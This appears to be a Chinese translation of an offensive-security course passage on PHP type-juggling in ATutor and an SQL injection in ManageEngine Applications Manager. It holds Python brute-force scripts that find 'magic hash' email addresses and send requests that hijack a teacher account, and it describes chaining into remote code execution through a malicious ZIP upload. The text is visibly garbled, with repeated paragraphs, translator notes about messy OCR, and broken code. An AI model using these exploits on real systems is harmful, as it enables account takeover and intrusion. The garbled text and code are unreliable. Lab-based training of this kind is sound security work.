为了避免潜在的漏洞，开发者需要意识到并使用严格运算符，特别是在处理用户控制的变量时。尽管如此，情况并非总是如此，正如我们很快将会看到的。

在继续之前，重要的是，`PHP` 开发者已经意识到了这个问题，并在 `PHP 7` 及以后的版本中解决了它。然而，这些改进并没有完全解决该问题，即使在最新的 `PHP` 版本中，类型转换（type juggling）漏洞仍可能发生。此外，仍然存在大量运行 `PHP 5` 的服务器，这使得类型转换漏洞成为可能发生的事件，尽管并不频繁。

## 4.4 PHP 字符串转换为数字

虽然我们在上一节中泛泛地讨论了松散比较，但我们还需要查看 `PHP` 字符串转整数的规则，以便理解它们。再次，我们回到 `PHP` 手册，可以在那里找到以下定义³⁹。

当字符串在数值上下文中被求值时，结果的值和类型确定如下。

如果字符串不包含任何字符 `''`、`'e'` 或 `'E'`，且数值值符合整数类型（由 `PHP_INT_MAX` 定义），则该字符串将被求值为整数。在所有其他情况下，它将阶求值为浮点数。

> ³⁹ `http://php.net/manual/en/language.types.php#language.types.string.conversion`

## 攻击性安全
`www.offensivesecurity.com`

值由字符串的初始部分给出。如果字符串以有效的数字数据开头，将使用该值。否则，值将为 `0`（零）。有效的数字数据是一个可选的符号，后跟一个或多个数字（可选包含一个小数点），然后是可选的指数。指数为 `'e'` 或 `'E'`，后跟一个或多个数字。

上面的定义有点难以理解，让我们通过几个例子来说明它们在实践中的意义。我们首先登录到 `AtTuror` `VM` 并执行松散比较操作。

```
student@:-$ php -v

PHP 5.6.30+de8bu1 (built: Feb 8 2017 08:50:21)

Copyright (c) 1997-2016 The PHP Group

Zend Engine v2.0.0, Copyright (c) 1998-2016 Zend Technologies

With OPCache v7.0.6-dev., Copyright (c) 1999-2016, by Zend Technologies

student@:-$ php -a

Interactive mode enabled

php > var_dump('0AAAA') == '43690';

bool(true)

php > var_dump('0AAAA') == 43690;

bool(true)

php > var_dump(0AAAA) == 43690;

bool(true)

php > var_dump('0AAAA') == '43691';

bool(false)
```

## 攻击性安全

对于本模块，我们最感兴趣的转换规则围绕科学计数法展开。作为一个非常基础的例子，`PHP` 数字指出，只要我们看到一个字符串以任意数字开头，后面跟着字母 `"e"`，后面再跟着一个或多个数字，并且该字符串用于数值上下文（例如与另一个数字比较），它将被求值为数字。

让我们在实践中查看：

```
student@utor:-$ php -a

Interactive mode enabled

php > var_dump('0eAAAA') == '0E';

bool(false)

php > var_dump('0e1111') == '0E';

bool(true)

php > var_dump('0e9999') == 0;

bool(true)
```

> **列表 144 - PHP5 中的科学指数比较**

注意，`144` 中的示例确认了自动字符串转整数转换在涉及科学计数法时也能按预期工作。在最后两个用例中，这意味着字符串将被视为零值，因为任何数字乘以零始终等于零。请注意，`144` 中看到的结果在 `PHP 7` 中也是相同的，因为对指数的解释规则没有改变。

这对我们意味着什么？让我们查看 `ATutor` 中的漏洞，看看我们如何利用涉及科学计数法时的松散比较。

### 4.4.1 练习

在你的 `Atutor` `VM` 上，尝试各种类型转换示例，以强化上一节中解释的概念。

## 4.5 漏洞发现

在之前的 `ATutor` 模块中，`SQL` 注入漏洞结合错误的身份验证逻辑实现，使我们获得了漏洞 `ATutor` 实例的未授权权限。然而，这不是攻击者获取相同访问权限的唯一方法。未经身份的攻击者可以使用类型转换漏洞来实现相同的目标。具体来说，为了利用此漏洞，攻击者必须到达 `confirm.php` 中负责用户账户地址更新的代码段，该文件是公开访问的。

考虑到这些，让我们来调查 `ATutor` 开发者究竟是如何实现这一功能的。为了做到这一点，我们需要理解 `confirm.php` 文件中的这段代码。

```
25: if (isset($_GET['e'], $_GET['id'], $_GET['m'])) {
26:     $id = intval($_GET['id']);
27:     $m = $_GET['m'];
28:     $e = $addslashes($_GET['e']);
29:
30:     $sql = "SELECT creation_date FROM smembers WHERE member_id=%d";
31:     $row = queryDB($sql, array(TABLE_PREFIX, $id, TRUE);
32:
33:     if ($row['creation_date'] != '!') {
```


## 列表 145 - 邮件更新逻辑的部分实现

我们从第 25 行开始，看到需要设置请求 `e`、`id` 和 `m` 才能进入此分支。这些值被赋值给相应的局部变量。注意第 28 行的 `$addslashes` 函数，你可能在之前的 ATutor 模块中见过它。与之前的情况一样，`$addslashes` 实际上等同于 `trim` 函数，在这里并没有对任何输入进行过滤。

第 30-31 行使用 GET 请求中传递的用户可控制值执行 SQL 查询。但请注意，该值被强制转换为整数，且查询也经过了适当的参数化。因此，即使 `$addslashes` 没有正确过滤输入，我们在此处也不会面临 SQL 注入。此外，第 33 行的检查规定 `id` 值必须对应数据库中已存在的条目。这是合理的，因为我们正在研究的代码部分是为了更新有效用户的邮箱。

在继续之前，让我们看看参与上述 SQL 查询的 ATutor 数据库表。

```
mysql select member_id, login, creation_date FROM AT_members;

+-------------------------------------------------------------+
| member_id | login | creation_date |
+-----------+-------+----------------+
| 1 | teacher | 2018-05-10 19:28:05 |
+-----------+-------+----------------+

1 row in set (0.01 sec)
```

## 列表 146 - AT_members 表内容

在 146 中，我们发现数据库包含一个条目。因此，在我们的示例中，目标是 `member_id` 为 1 的 "teacher" 账户。

如果在 GET 请求中传递值为 1 的账户 ID，第 145 行的查询将返回单行，`creation_date` 数组将被填充。这应该能让我们通过第 33 行的检查并到达第 34 行（列表 147）。

```
if ($row['creation_date'] != '') {
    $code = substr(md5($s), $row['creation_date'] . $id, 0, 10);
    if ($code == $m) {
        $sql = 'UPDATE %members SET email=%s, last_login=NOW(),
        creation_date=DATE_ADD(%s) WHERE id=%d';
        $result = queryDB($sql, array(TABLE_PREFIX, $e, $id));
        $msg->addFeedback('CONFIRM_GOOD');
    } else {
        header('Location: '.$base_href.'users/index.php');
        exit;
    }
} else {
    $msg->addError('CONFIRM_BAD');
} else {
    $msg->addError('CONFIRM_BAD');
}
```

在这里，变量 `$code` 使用拼接字符串的 MD5 哈希值初始化，该字符串由两个我们控制的值（`$s` 和 `$id`）以及之前分析的 SELECT 查询（第 30 行）从数据库返回的创建日期组成。更重要的是，MD5 哈希值的前 10 个字符被分配给 `$code` 变量。正如我们很快看到的，这将非常有帮助。

最后，也是关键的一点，在第 35 行我们部分控制 `$code`。如果我们找到进入此分支的方法，就可以控制 `$m` 并能够如第 37-38 行所示更新目标账户的邮箱，然后会被重定向到目标用户的配置页（第 40 行的 PHP `header` 函数）。

总结一下目前所知的信息，`confirm.php` 不需要身份验证，可以用于更改现有用户的邮箱。我们通过之前对更新用户邮箱地址代码逻辑的分析还知道：

- `$id` GET 变量对应数据库中分配给 aT 用户的唯一 ID 值，且受攻击者控制
- `$e` GET 变量对应我们想要设置的新邮箱地址，且受攻击者控制
- 受攻击者控制的 `$m` 变量通过与计算出的 `$code` 变量进行松散比较（loose comparison），用于判断是否允许更新目标用户的邮箱
- `$code` 变量是一个十字符的 MD5 哈希子串，部分受攻击者控制

让我们弄清楚如何利用这种松散比较。

## 4.6 攻击松散比较

在分析的这一阶段，我们应该回想起上一节中学的 PHP 和科学计数法。那一个节的问题是：从攻击者的角度来看，这些知识的实际价值是什么？为此，我们需要进一步扩展所探索的概念，并引入“魔法哈希”（Magic hashes）这一主题。

### 4.6.1 魔法哈希

在 146 中，我们发现数据库包含一个条目。因此，在我们的示例中，目标是 `member_id` 为 1 的 "teacher" 账户。

如果在 GET 请求中传递值为 1 的账户 ID，第 145 行的查询将返回单行，`creation_date` 数组将被填充。这应该能让我们通过第 33 行的检查并到达第 34 行（列表 147）。

总结一下目前所知的信息，`confirm.php` 不需要身份验证，可以用于更改现有用户的邮箱。我们通过之前对更新用户邮箱地址代码逻辑的分析还知道：

- `$id` GET 变量对应数据库中分配给 aT 用户的唯一 ID 值，且受攻击者控制
- `$e` GET 变量对应我们想要设置的新邮箱地址，受攻击者控制
- 受攻击者控制的 `$m` 变量通过与计算出的 `$code` 变量进行松散比较，用于判断是否允许更新目标用户的邮箱
- `$code` 变量是一个十字符的 MD5 哈希子串，部分受攻击者控制

（注：OCR 提供的文本在最后部分非常重复且混乱。我根据提供的连贯片段进行了重构。）

### # 攻击性安全
`www.offensecurity.com`

由于 `0DDDDDDD` 的求值为零，我们将能够从列表项中进入 `if` 块，将账户邮箱地址更新为暴力破解攻击生成的随机地址。

最后，为了使这种攻击向量成功，一旦我们找到有效的“魔法邮箱”（Magic Email）地址，我们必须拥有为该域名生成任意邮箱账户的能力。这是必要的，因为在更新了账户邮箱地址后，我们可以使用“忘记密码”功能让重置密码的邮件发送到该地址。这最终将允许我们劫持目标账户。

为了更好地理解这种方法，我们首先将在 Kali 虚拟机上使用 Python 重新创建代码生成逻辑。该脚本接受域名、目标账户 ID、创建日期和邮箱地址长度作为参数。基于这些，它将仅使用字母字符生成邮箱地址的所有可能组合，并对字符串执行 MD5 操作。如果 10 个字符的子字符串匹配我们之前讨论的标准，它将其标记为有效邮箱地址。以下代码将为你完成这项工作：

```python
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in itertools.product(''.join(domain), itertools.product(string.lowercase), repeat=len(prefix_length)):
        hash = hashlib.md5("%s@%s" % (word, domain) + date + id).hexdigest()[:10]
        if re.match(r'0[a-f]+', hash):
            print("* Found a valid email: %s@%s" % (word, domain))
            print("* Requests made: %d" % count)
            print("* Equivalent loop comparison: %s == 0\n" % (hash))
    count += 1

def main():
    if len(sys.argv) != 5:
        print("* eg: usage: %s <domain_name> %s <creation_date> <prefix_length> %s" % sys.argv[0])
        sys.exit(1)
    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date = sys.argv[3]
    prefix_length = sys.argv[4]
    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()
```

让我们来看一下这个概念。注意，我们将使用目标账户的创建日期来验证我们的知识，并证明暴力破解方法可以相对快速地成功。然而，真实账户的知识并不是

``

### # 攻击性安全
`www.offsecsecurity.com`

我们攻击所所需的。它由服务器本身在验证过程中提供，因为验证发生在服务器端，而不是客户端侧。

```bash
kali@kali:$ python author_codegen.py offsec.local 1 "2018-05-10 19:28:05" 3

(+) Found a valid email! axt@offsec.local
(+) Requests made: 617
(+) Equivalent loose comparison: @0e7793356 == 0

kali@kali:$ python author_codegen.py offsec.local 1 "2018-05-10 19:28:05" 4
(+) Found a valid email! avlz@offsec.local
(+) Requests made: 14507
(+) Equivalent loose comparison: @0e35045908 == 0

(+) Found a valid email! bolf@offsec.local
(+) Requests made: 27331
(+) Equivalent loose comparison: @0e86991400 == 0

(+) Found a valid email! brso@offsec.local
(+) Requests made: 29550
(+) Equivalent loose comparison: @0e5718309 == 0

..
```

> 列表 153 - 暴力破解脚本的示例运行

出于本次练习的目的，我们将使用 Atmail 虚拟机以及我们使用脚本发现的第一个有效邮箱地址：`axt@offsec.local`。

``

图 87：在 Atmail 中创建任意有效邮箱账户

我们现在可以修改之前的脚本，包含适当的 GET 请求，一旦找到第一个魔法邮箱地址，该请求将执行我们的攻击。

```python
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase,
        repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/Atutor/confirm.php?e=%s&id=%s&n=%s" % (ip, email, id)
        print("%s Issuing update request to URL: %s")
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, None, count)

def main():
    if len(sys.argv) != 5:
        print("* usage: %s <domain> <id> <prefix_length> <atutor_ip>") % sys.argv[0]
        print("* eg: %s offsec.local 1 192.168.1.2") % sys.argv[0]
        sys.exit(-1)
    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]
    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print("%s hijacked with %s using %d requests!") % (email, c)
    else:
        print("%s failed!")

if __name__ == "__main__":
    main()
```

列表 154 - 暴力破解脚本一旦找到有效邮箱地址将发出 GET 请求。请注意，我们在上面使用 302 状态码作为重定向到页面的指示。

列表 151 - 高级攻击与利用

``

| Login Name | First Name | Second Name | Last Name | Email | Account Status | Last Login | Creation Date |
| --- | --- | --- | --- | --- | --- | --- | --- |
| teacher | Offensive | | Security | atutor@offsec.local | Instructor | 2018-06-05 | 2018-05-10 19:28 |

图 38：教师账户已更新新邮箱

列表 155 - 教师账户已更新新邮箱

快速查看 ATutor 用户管理员可以验证教师账户

| Login Name | First Name | Second Name | Last Name | Email | Account Status | Last Login | Creation Date |
| --- | --- | --- | --- | --- | --- | --- | --- |
| teacher | Offensive | | Security | atutor@offsec.local | Instructor | 2018-06-05 | 2018-05-10 19:28 |

图 39：成功的 ATutor 账户劫持验证

获得权限访问后，我们可以执行与之前在 ATutor 模块中执行相同的相同上传攻击，并获得操作系统层级的未经授权访问。作为快速回顾，我们将

# 高级网络攻击与利用

使用我们通过“测试与问卷”（Tests and Surveys）功能上传的恶意 ZIP 文件。该 ZIP 文件将使用目录穿越技术到达一个公开访问的 ATutor 目录，并在其中写入恶意 PHP 文件，从而实现远程代码执行。

``

图 92：在受漏洞的 ATutor 实例上执行远程代码

### 4.6.3 练习

成功重现本模块中描述的类型转换（type juggling）。注意，你的电子邮件取决于账户创建日期，这意味着它极可能与本模块中使用的邮箱匹配。

### 4.6.4 进阶挑战

根据你所学到的关于类型转换的所有知识，请在不更新电子邮件地址且不使用“忘记密码”功能的情况下，重现对“教师”账户的攻破。

## 4.7 总结

正如我们在本模块中证明的，PHP 程序的类型转换漏洞比 SQL 注入等更常见的技术更容易被开发者忽略。尽管如此，在适当的情况下，这些漏洞的威力可能同样强大，作为攻击者，我们在审查 PHP 程序时应始终关注松散比较（loose comparisons）的使用。

# ManageEngine Applications Manager

`AMUserResourcesSyncServlet` SQL Injection RCE

## 5.1 概述

本模块包含对 ManageEngine `AMUserResourcesSyncServlet` 中发现的 SQL 注入漏洞的深度分析和利用，该漏洞可用于访问底层操作系统。模块还将讨论如何审计编译后的 Java 服务以检测关键漏洞的方法。

## 5.2 快速上手

从你的学生控制面板还原 ManageEngine 虚拟机。

你将在课程材料中找到 ManageEngine Applications Manager 服务器的凭据和应用程序帐户。


### 5.3 漏洞发现

正如厂商⁴³ 所述：

> ManageEngine Applications Manager 是一种应用程序性能监控解决方案，能够主动监控业务应用程序，并帮助企业确保其关键业务应用程序符合终端用户的预期。Applications Manager 为 80 多种应用程序和服务器提供开箱即用的监控支持。

决定研究 `ManageEngine Application Manager` 的原因之一，是因为我们在测试职业生涯中遇到过许多 `ManageEngine` 应用。尽管 `ManageEngine` 的产品组合多年来已经趋于成熟，但它仍然是有趣的漏洞来源，正如我们在本模块将演示的那样。

每当我们开始审计一个陌生 Web 程序时，首先需要熟悉目标并了解暴露的攻击面。在 `ManageEngine Application Manager` 接口中，我们可以看到（图 93）大多数 URL 都以 `.do` 结尾。快速 Google 搜索可以进入扩展名说明页面⁴⁴，该页面指出 `.do` 扩展通常是编译后的 Java 代码的 URL 映射方案。





#### 5.3.1 Servlet 映射

根据扩展名说明，我们首先启动 `Process Explorer`^45 以对我们针对的 Java 进程获得更深入的洞察：



此时一个自然的问题是：我们如何知道目标哪个 Java 进程？在这种情况下，我们很幸运，因为我们的漏洞机器上只运行了一个 Java 进程。某些应用程序使用多个 Java 进程实例。在这种情况下，我们可以通过右键点击进程名称并选择“属性”来检查任何给进程属性（图 95）。

> ^45 https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer




图 95：查看由 `wrapper.exe` 派生的 `Java.exe` 进程属性

在 Path 位置（图 95）中，我们看到进程使用的工作目录为 `C:\Program Files\ManageEngineAppManager12\working\`

这证实了我们处于正确的道路上。此外，该目录是开始寻找有关目标额外信息的良好起点。更具体地说，Java Web 应用使用名为 `web.xml` 的部署文件来确定 URL 如何映射到 servlet、哪些 URL 需要身份验证以及其他信息。在我们寻找 Web 程序暴露的任何功能的实现时，这至关重要。

至此，通过 `working` 目录，我们看到了一个 `WEB-INF` 文件夹，Java 类位于其中。这是开始寻找有关目标额外信息的良好起点。更具体地说，Java Web 应用使用名为 `web.xml` 的部署文件来确定 URL 如何映射到 servlet、哪些 URL 需要身份验证以及其他信息。在我们寻找 Web 程序暴露的任何功能的实现时，这至关重要。

（注：原文文本在部分区域存在大量重复的句子，如关于“Java Web 应用使用名为 web.xml 的部署文件...”的描述，在翻译过程中已根据文档工程规范进行了去重处理，以确保逻辑连贯性。）

#### 5.3.2 源码恢复

现在我们已经有了反编译源码，就可以利用它了。

#### 5.3.3 分析源代码

现在工具已经准备就绪，是时候开始查看源代码并识别任何可以利用的漏洞了。在这种情况下，我们知道目标应用程序正在与数据库交互，因此直觉上应该开始审查代码中找到的所有查询字符串。更具体地说，我们将尝试识别所有未过滤的用户输入可能进入查询字符串并导致典型的 SQL 注入的实例。

在分析代码库时，我们注意到大多数查询字符串都被赋值给名为 `query` 的变量，如下列表所示：

```java
String query = "select count(*) from Alert where SEVERITY = " + i + " and groupname = 'AppManager";
```

列表 156 - 源码中的示例查询

列表 156 中的查询是一个非常佳的示例，我们可以基于此构建正则表达式，这可以帮助我们找到感兴趣的大多数特定类型的查询。具体来说，它包含了我们想要查找的几个关键字符串，即 `"query"` 和 `"select"`，并且使用了 `'+'` 运算符进行字符串拼接。

Notepad++ 允许我们使用正则表达式进行搜索，我们将开始使用的一个看起来如下：

```regex
^.*?query\.*?select\.?
```

列表 157 - 用于搜索 SELECT 查询的正则表达式

如果你不熟悉正则表达式，我们强烈建议你花些时间学习它们，因为它们在漏洞发现过程中是一个非常有用的工具。目前，只需要知道列表 157 中的表达式基本上显示了：

- 查找任何开头包含任意数量字母或数字字符的行。
- 紧接着字符串 `QUERY`。
- 紧接着任意数量的字母或数字字符。
- 紧接着字符串 `SELECT`。
- 紧接着任意数量的字母或数字字符。

虽然这看起来很复杂，但其实并不难。

在我们执行此操作之前，我们需要确保在 Notepad++ 搜索对话框中勾选了“正则表达式”（`Regular Expression`）选项，并且“目录”（`Directory`）框指向我们桌面上包含 Java 源代码文件的目录（图 98）。



图 98：搜索 SELECT 查询


正如图 98 所示，这似乎并没有缩小我们的关注范围，因为我们仅在 JAR 文件中发现了几乎 5000 处的 SELECT 查询实例。我们可能想要找到一种更好的搜索方法，以减少我们需要审查的实例数量。请记住，使用上述方法并没有问题；然而，我们通常倾向于为源码审计找到一个更合理的起点点。

审查 Web 应用程序的另一种方法是从前端用户界面实现开始，查看 HTTP 请求处理器。

考虑到这一点，重要的是，在典型的 Java Servlet 中，由于处理每个请求类型的处理器函数具有常量且唯一的名称，我们可以轻松识别出处理每个请求类型的 HTTP 请求处理器函数。

这些方法的命名如下：

- `doGet`
- `doPost`
- `doPut`
- `doGet`
- `doCopy`
- `doOptions`

由于我们已经提到，在源码审计的早期，我们需要尽可能靠近用户输入应用程序的入口，因此搜索所有的 `doGet` 和 `doPost` 函数实现似乎是一个不错的选择。

| Servlet.java |
| :--- |
| "search" (87) 行到 30 行: |
| 116 / * public void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 117 / * public void doPost(HttpServletRequest request, HttpServletResponse response) { |
| 118 / * public void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 119 / * public void doPost(HttpServletRequest request, HttpServletResponse response) { |
| 120 / * protected void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 121 / * protected void doPost(HttpServletRequest request, HttpServletResponse response) { |
| 122 / * protected void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 123 / * protected void doPost(HttpServletRequest request, HttpServletResponse response) { |
| 124 / * public void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 125 / * public void doPost(HttpServletRequest request, HttpServletResponse response) { |
| 126 / * protected public void doGet(HttpServletRequest request, HttpServletResponse response) { |
| 127 / * public void doPost(HttpServletRequest request, HttpServletResponse response) { |

> 图 99：列出所有的 `doGet()` 和 `doPost()` 函数实现

在 `doGet` 的情况下，我们只找到了 87 处函数实现，这是一个要合理多的起点。

由于需要审查的攻击面小了很多，我们可以查看 `doGet` 实现的任何实例，看它如何在 SQL 查询中使用它处理用户输入。这包括很好地追踪用户输入值通过 `doGet` 函数中的后续函数调用。


在使用这种方法一段时间后，我们到达了 `AMUserResourcesSync` 类的 `doGet` 实现。

通常，`doPost` 和 `doGet` 函数期望两个参数，如下方的列表所示：

```java
protected void doGet(HttpServletRequest req,
    HttpServletResponse resp)
```

> 列表 15 - servlet HTTP 请求处理器方法示例

第一个参数是 `HttpServletRequest` 对象，它包含了客户端向 Web 应用程序提出的请求，第二个是 `HttpServletResponse` 对象，它包含了 Servlet 在处理请求后发送给客户端的响应。

从攻击者的角度来看，我们对 `HttpServletRequest` 对象特别感兴趣，因为那是我们可以控制的。具体地说，我们对通过 `getParameter` 或 `getParameterValues` 方法提取 HTTP 参数的 servlet 代码感兴趣。

现在我们已经熟悉 HTTP 请求是如何处理的，让我们直接进入 `AMUserResourcesSync` 类中的 `doPost` 和 `doGet` 方法：

```java
public class AMUserResourcesSync extends HttpServlet {

    protected void doGet(HttpServletRequest request, HttpServletResponse response) {
        String maxRange = request.getParameter("MaxRange");
        String userId = request.getParameter("userId");
        String chkRestricted = request.getParameter("chkRestricted");

        if (maxRange != null) {
            if (userId == null) && (!".equals(userId))) {
                fetchUserResourcesOfMASForUserId(userId, maxRange, out);
            } else {
                fetchAllUserResourcesForMAS(maxRange, out);
            }
        } else {
            out.println("AMUResourcesSync:(doGet) range is " + maxRange + " is given");
        }
    }

    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        String isSyncConfig = request.getParameter("isSyncConfigToMap") + " = " + maxRange + " = " + userId + " = " + chkRestricted;
        if (chkRestricted != null)
            if ("true".equals(chkRestricted))) {
                boolean isRestricted = RestrictedUtil.isRestrictedRole(chkRestricted);
                out.println(isRestricted);
            }
        else if (maxRange != null) {
            if (userId == null) && (!".equals(userId))) {
                fetchUserResourcesOfMASForUserId(userId, maxRange, out);
            } else {
                fetchAllUserResourcesForMAS(maxRange, out);
            }
        }
    }
}
```

等待，当我们在 JD-GUI 中，可以使用语法高亮。任何时候双击变量，JD-GUI 都会高亮该变量使用的所有实例。如果我们尝试验证 `userId` 变量，我们看到 `fetchUserResourcesOfMASUserId` 在 `doGet` 函数中使用，`userId` 也用于构建 SQL 查询，这被反序列化

```java
String maxRange = request.getParameter("MaxRange");
String userId = request.getParameter("userId");
String chkRestricted = request.getParameter("chkRestricted");
```

图 150：`userId` 变量的语法高亮

让我们查看 `fetchUserResourcesOfMASForUserId`

```java
public void fetchUserResourcesofUserId(String userId, String masRange,
PrintWriter out) {
    int strRange = Integer.parseInt(masRange);
    int endRange = strRange + EnterpriseUtil.RANGE;
    String query = "select distinct (RESOURCE) FROM AM_USERRESOURCEABLE WHERE \nUSERID=" + userId + " AND RESOURCE <" + strRange + " AND RESOURCE <" + endRange + ";
    AMLog.debug("AMUserResourcesSyncservlet:( + fetchUserResourcesofUserId)");
    try {
        ResultSet rs = AMConnectionPool.getConnection().executeQuery(query);
        while (rs.next()) {
            String resId = rs.getString(1);
            out.println(resId);
        }
    } catch (Exception ex) {
        ex.printStackTrace();
    } finally {
        AMConnectionPool.close(rs);
    }
}
```

> 列表 160 - `fetchUserResourcesofUserId` 方法

在上一行（第 70 行），用户变量被拼接到第 76 行执行的查询字符串中。这看起来非常非常像 SQL 注入漏洞！


如果我们在 `JD-GUI` 中双击 `fetchUserResourcesofUserId` 函数，也可以看到它是从第 52 行的 `doGet` 函数开始的（第 159 行）。让我们看看我们如何到达那里，并检查是否进行了任何清理处理。

要做到这一点，我们需要考虑分别位于第 32 行和第 42 行的第一个和第二个 `if` 语句（代码列表 159）。具体来说，如果评估结果为 `TRUE`，我们将无法到达第 49 行的 `else if`（第 159 行），而这正是我们正尝试做的。我们稍后会讨论这一点。

如果我们看上述的 `if` 语句，很明显我们能够控制这些语句评估的结果，因为它们依赖于可以通过 HTTP 请求传递的值。这里的关键词是“可以”。注意，在某些情况下，第一个检查是相应的变量是否为空。这意味着我们必须确保在未来的请求中，这些参数没有被设置，这样我们就能达到目标结果。

提到这里，`else` 语句检查了 `masRange` 变量是否存在（第 49 行，第 159 行），并且在变量存在时才移动到下一个语句。因此，我们需要确保我们的请求设置了 `ForMasRange` 参数（第 159 行）。

## 攻击性安全

`www.offsec.com`

最后，我们到达了最后一个 `if`，它遵循相同的模式：检查 `userid` 变量是否存在（第 50 行，代码列表 159），并确保它不是空字符串。

我们通过这一分析得出结论：我们应该能够在不对 `userid` 变量进行任何清理的情况下，到达 `fetchUserResourcesofMASForUserId()` 函数。

此外，快速查看代码列表 160 可以发现，我们的变量在 `fetchUserResourcesofMASForid` 中没有被清理，这意味着我们确实拥有了一个有效的 SQL 注入漏洞。

### 5.3.4 启用数据库日志

在继续之前，让我们启用数据库日志。这可以在调试应用程序时为我们节省大量时间，特别是当我们在处理可能的 SQL 注入漏洞时。虽然我们已经知道查询的内容是什么，但我们需要查看我们的字符在到达数据库层之前是否经过了转换。

由于 `ManageEngine` 使用 `PostgreSQL` 作为后端数据库，我们需要编辑它的配置文件来启用任何日志功能。在我们的虚拟机中，`postgresql.conf` 文件位于以下路径：`C:\Program Files (x86)\ManageEngineAppManager12\working\postgresql\amd\postgresql.conf`

为了记录所有 SQL 查询，我们将把 `postgresql.conf` 中的 `log_statement` 设置为 `'all'`，如下列表所示。

```
log_statement = 'all'
```

列表 161 - 修改 `postgresql.conf` 文件以启用查询日志

`one`, `ddl`, `mod`, `all`

更改日志后，我们需要重启 `ManageEngine Applications` 服务以应用新设置。我们可以通过在运行窗口中启动 `services.msc` 并找到 `ManageEngine Applications Manager` 服务（图 101）。



# 高级网络攻击与利用

一旦服务重启，我们就可以在以下目录的日志文件中看到失败的查询了：

```
C:\Program Files (x86)\ManageEngine\AppManager12\working\postgresql\data\amdb\postgresql_log\
```

列表 162 - `PostgreSQL` 日志目录

在我们的漏洞开发期间，我们需要能够直接对数据库执行 SQL 查询以便进行调试。

实现此点的方法之一是使用 `pgAdmin` 软件，它安装在 `ManageEngine` 虚拟机上。它是 `PostgreSQL` 的前端，该目标应用程序使用的数据库。

